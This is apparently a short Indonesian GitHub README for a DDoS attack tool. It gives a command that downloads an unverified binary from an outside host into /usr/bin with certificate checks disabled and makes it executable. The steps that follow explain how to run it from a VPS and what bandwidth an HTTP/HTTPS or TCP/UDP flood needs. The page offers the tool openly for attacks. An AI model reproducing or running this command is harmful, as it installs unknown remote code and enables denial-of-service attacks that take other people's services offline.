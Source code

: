 DDOS ATTACK SIMPEL BY RAFANSTR

wget --no-check-certificate -O /usr/bin/dds http://autsc.my.id/xws ; chmod +x /usr/bin/dds

![RafanSTR](https://github.com/Genjerr/DDOS-TOOLS/blob/main/gambar1.png)

1. tempel link diatas di terminal vps kalian
2. jalankan dengan ketik dds di terminal
3. lalu install module yang diminta di terminal (lupa apa aja)
4. minimal kecepatan koneksi vps 500mbps untuk menjalankan http/https
5. untuk tcp/udp bisa costum sendiri mau kecepatan berapa mbps/gbps sesuai kemampuan vps kalian
